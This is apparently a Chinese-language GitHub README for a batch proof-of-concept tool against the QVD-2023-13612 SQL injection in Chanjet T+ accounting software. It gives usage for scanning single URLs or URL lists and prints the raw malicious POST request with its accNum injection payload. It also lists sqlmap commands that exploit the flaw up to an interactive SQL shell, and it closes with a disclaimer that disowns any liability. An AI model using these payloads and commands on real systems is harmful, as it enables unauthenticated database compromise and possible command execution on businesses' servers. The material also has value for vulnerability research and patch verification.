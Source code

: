

## QVD-2023-13612 用友畅捷通T SQL注入 批量POC！

畅捷通T+SQL注入漏洞，未经身份认证的远程攻击者可在易受攻击系统上执行任意SQL语句，某些情况下攻击者利用该漏洞可在底层操作系统上执行shell命令。

### 影响范围

  畅捷通T+ 13.0

  畅捷通T+ 16.0

### Usage

```
usage: QVD-2023-13612_TPlus-SQLvuln.py [-h] [-u URL] [-f FILE] [-t THREAD] [-T TIMEOUT] [-o OUTPUT] [-p PROXY]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target url(e.g. http://127.0.0.1)
  -f FILE, --file FILE  Target file(e.g. url.txt)
  -t THREAD, --thread THREAD
                        Number of thread (default 5)
  -T TIMEOUT, --timeout TIMEOUT
                        Request timeout (default 3)
  -o OUTPUT, --output OUTPUT
                        Vuln url output file (e.g. result.txt)
  -p PROXY, --proxy PROXY
                        Request Proxy (e.g http://127.0.0.1:8080)
```

POC

```
 python '.\QVD-2023-13612_SQL Injection Vulnerability.py' -u http://host
```

![image-20230628001513660](https://github.com/Sweelg/QVD-2023-13612_TPlus-SQLvuln/raw/main/img/4.png)

```
 python '.\QVD-2023-13612_SQL Injection Vulnerability.py' -f .\url.txt -t 5 -o 1.txt
```

![image-20230628003352114](https://github.com/Sweelg/QVD-2023-13612_TPlus-SQLvuln/raw/main/img/5.png)

### 数据包

```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/css,*/*;q=0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 79

{"accNum": "3'and (select @@version)>0--", "functionTag": "SYS0104", "url": ""}
```

![](https://github.com/Sweelg/QVD-2023-13612_TPlus-SQLvuln/raw/main/img/1.png)

### EXP

```
python sqlmap.py -r sql.txt --random-agent -v 3 --dbms mssql --hex -p "accNum" --batch
python sqlmap.py -r sql.txt --random-agent -v 3 --dbms mssql --hex -p "accNum" --batch --sql-shell
```

sql.txt数据包

```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/css,*/*;q=0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 53

{"accNum": "3'", "functionTag": "SYS0104", "url": ""}
```

![image-20230627173340255](https://github.com/Sweelg/QVD-2023-13612_TPlus-SQLvuln/raw/main/img/2.png)

![image-20230627225735364](https://github.com/Sweelg/QVD-2023-13612_TPlus-SQLvuln/raw/main/img/3.png)

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，**均由使用者本人负责，作者不为此承担任何责任**。

















